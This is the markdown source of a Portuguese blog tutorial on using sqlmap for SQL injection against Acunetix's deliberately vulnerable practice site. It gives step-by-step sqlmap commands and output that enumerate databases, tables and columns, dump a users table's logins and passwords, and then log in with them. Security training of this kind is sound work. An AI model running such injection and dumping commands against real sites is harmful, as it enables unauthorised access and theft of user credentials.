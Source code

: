 ```yaml
---
layout: post
title: "Analisando vulnerabilidades com sqlmap"
data: Fevereiro de 2016
img_background: img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/syringe-code2.jpg
description: 'Vamos analisar uma pequena falha encontrada em um banco de dado Mysql, com o sqlmap'
tags: [Segurança, Dicas]
categories:
- Segurança
---
```



## SQL Injection

Hoje vou falar um pouco sobre uma ótima ferramenta para fazer `pentest`, que é muito utilizada para fazer `SQL injection`, vou falar sobre o `sqlmap` que tem como foco buscar vulnerabilidades no `SQLi` que podem trazer uma grande dor de cabeça, vulnerabilidades que geralmente são causadas por falhas no desenvolvimento, e as vezes até por um funcionário descontente ou desmotivado.

### Mas o que é sqlmap

O `sqlmap` é uma ferramenta desenvolvida em `python` de código aberto, que tem como foco analisar vulnerabilidades no sql de websites ou serviços, possibilitando que você faça diversas coisas, devido à variedade de opções que ele te oferece, desde informações do formulário até tabelas de todo o banco de dados, muito popular para extrair nome de usuários e senhas.

O que vamos abordar aqui é tenta encontrar alguma vulnerabilidade no `SQL`, e ver se conseguimos ganhar acesso, para fazer nosso teste vou usar o site da Acunetix [http://testphp.vulnweb.com/](http://testphp.vulnweb.com/), que foi disponibilizado justamente para fazer pentest.

### Instalando o sqlmap

Sua instalação não é muito difícil, é como quaisquer outras aplicações que não vem como padrão em sua distribuição. Acesse o site oficial [sqlmap.org](http://sqlmap.org/), faça download de sua referência seja `.zip` ou `tar.gz`. Extraia os arquivos para uma pasta, acesse a pasta e execute `./sqlmap.py` ou `python sqlmap.py`

### Help

{% highlight bash %}
./sqlmap.py --help | less
{% endhighlight %}

Sempre bom conhecer a ferramenta antes de utilizarmos ela, tente ler algumas das muitas opções que o `sqlmap` oferece, assim você pode juntar algumas opções que podem se torna úteis.

### Analisando possíveis vulnerabilidades

Coloque um som legal aí, e vamos lá. Primeiro vamos conhecer o nosso site alvo, então acesse [http://testphp.vulnweb.com/](http://testphp.vulnweb.com/). É possível ver na imagem abaixo que temos uma área de login, o que geralmente acontece nessas áreas, se você colocar aspas simples ('') no login e na senha, já indica uma vulnerabilidade, mas cheguei a fazer esse teste e não tive resultado nenhum, então quer dizer que não temos vulnerabilidade nessa página de login, ou que eu não consegui encontrar. :(

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot04.png)

Mas não podemos criar pânico, vamos dá uma olhada melhor, ali do lado esquerdo temos um menu na vertical onde é possível acessar uma página de categorias. Ótimo quer dizer que temos um banco de dados ali também.

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot02.png)

Essas categorias podem ser exploradas, então vou selecionar a segunda categoria e vamos ver o que ela tem para nos oferecer, porque é onde está o conteúdo relacionado ao banco de dados.

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot03.png)

Essa categoria que selecionei tem apenas um resultado relacionado a ela, mas não tem problema o nosso foco aqui é encontrar vulnerabilidades e não comprar. Agora vamos analisar o `URL` da página.

{% highlight bash %}
http://testphp.vulnweb.com/listproducts.php?cat=2
{% endhighlight %}

Legal, vamos pôr um ponto de interrogação `?` ali no final da nossa `URL`, quem sabe temos algum erro no sql.

{% highlight bash %}
http://testphp.vulnweb.com/listproducts.php?cat=2?
{% endhighlight %}

Muito bom encontramos o que precisávamos, um pequeno erro no sql, e já descobrimos qual é o sql que ele utiliza o `Mysql`.

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot05.png)

Já encontramos a vulnerabilidade que precisávamos então vamos para o `sqlmap`, que será uma peça fundamental, onde iremos tentar puxar mais informações desse banco de dados.

{% highlight bash %}
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=2 --dbms=mysql --dbs
{% endhighlight %}

O `-u` indica que estamos usando uma url já o `--dbms=mysql` indica para que seja feita busca no mysql, que é o banco de dados utilizado pelo site, assim a busca fica muito mais rápida, se não utilizarmos essa opção ele vai demorar um pouco mais, porque vai tentar com todos os bancos de dados e por fim o `-dbs` está pedindo para que liste os bancos de dados.

Após executar, o resultado foi:

{% highlight bash %}
[00:19:41] [INFO] testing MySQL
[00:19:41] [INFO] confirming MySQL
[00:19:41] [INFO] the back-end DBMS is MySQL
web application technology: Nginx, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.0
[00:19:41] [INFO] fetching database names
available databases [2]:
[*] acuart
[*] information_schema

[00:19:41] [INFO] fetched data logged to text files under '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com'
{% endhighlight %}

Até aqui tranquilo, acabamos de descobrir mais um pouco, agora sabemos que ele tem um banco de dados chamado `acuart` e o outro `information_schema`. Vamos analisar esse `acuart`

{% highlight bash %}
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=2 --dbms=mysql --dbs -D acuart --tables
{% endhighlight %}

A opção `-D` mostra qual o banco de dados que vamos analisar que seria o `acuart` que é a nossa segunda opção, já o `--tables`, vai listar todas as tabelas existentes no banco de dados que acabamos de informar.

Nosso resultado foi:

{% highlight bash %}
[00:28:26] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+

[00:28:26] [INFO] fetched data logged to text files under '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com'
{% endhighlight %}

Olha ali temos uma tabela chamada `users`, legal que é o nosso foco aqui, descobrir usuário e senha então vamos pegar mais informações desse banco de dados da tabela `users`

{% highlight bash %}
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=2 --dbms=mysql --dbs -D acuart -T users --columns
{% endhighlight %}

O `-T`, estou informando que desejo informações da tabela já o `users` diz qual é a nossa tabela, e o `--columns`, informa que desejo as colunas dessa tabela.

{% highlight bash %}
[00:33:01] [INFO] fetching columns for table 'users' in database 'acuart'
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| name    | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+

[00:33:01] [INFO] fetched data logged to text files under '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com'
{% endhighlight %}

Estamos quase chegando na nossa reta final, já temos ali as colunas `uname` e `pass`, vamos extrair ela e ver o que temos.

{% highlight bash %}
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=2 --dbms=mysql --dbs -D acuart -T users -C uname,pass,name,email --dump
{% endhighlight %}

No `-C` estou informando que desejo as colunas já `uname,pass,name,email`, informando quais são essas colunas que eu desejo, e o `--dump`, extrai as informações dessas colunas.

Resultado:

{% highlight bash %}
[00:41:04] [INFO] fetching entries of column(s) 'email, name, pass, uname' for table 'users' in database 'acuart'
[00:41:04] [INFO] analyzing table dump for possible password hashes
Database: acuart
Table: users
[1 entry]
+-------+------+------------+-----------------+
| uname | pass | name       | email           |
+-------+------+------------+-----------------+
| test  | test | John Smith | email@email.com |
+-------+------+------------+-----------------+

[00:41:04] [INFO] table 'acuart.users' dumped to CSV file '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com/dump/acuart/users.csv'
[00:41:04] [INFO] fetched data logged to text files under '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com
{% endhighlight %}

Bom, se você chegou até aqui parabéns, está na hora de ver se essa parada aqui é de verdade mesmo e ter certeza que não estou inventando nada, rs. Vamos para o site naquela página de login, tentar usar o a senha `test` e o login `teste`, e ver se o nome e e-mail bate com as informações.

Página de login:

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot06.png)


Página de acesso:

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot07.png)

### Conclusão

Como foi possível ver, esse realmente era o usuário e senha para acessar a página, e os dados bateram com as informações que obtivemos na hora de pegar as informações das colunas. Agora é só verificar outras vulnerabilidades possíveis no site da Acunetix, e explorar elas, sempre tem um novo jeito.

### Referências

[sqlinjection](http://www.sqlinjection.net/)

[sqlmap.org/](http://sqlmap.org/)

-----
Viu algum erro ou gostaria de adicionar alguma sugestão a essa matéria? Comente.
